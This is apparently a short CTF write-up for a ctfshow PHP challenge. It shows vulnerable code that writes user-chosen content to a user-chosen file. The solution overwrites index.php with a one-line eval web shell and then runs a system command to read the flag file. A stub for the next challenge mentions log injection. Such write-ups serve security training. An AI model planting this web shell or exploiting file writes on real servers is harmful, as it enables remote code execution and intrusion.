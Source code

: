 ```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 04:34:40

*/


error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

直接用一句话木马覆写掉index.php

```
GET ?ctf=index.php
POST show=<?php @eval($_POST['1']);?>
```

写入后

```
POST 1=system('cat /ctfshow_fl0g_here.txt');
```



#### web150

非预期 日志注入
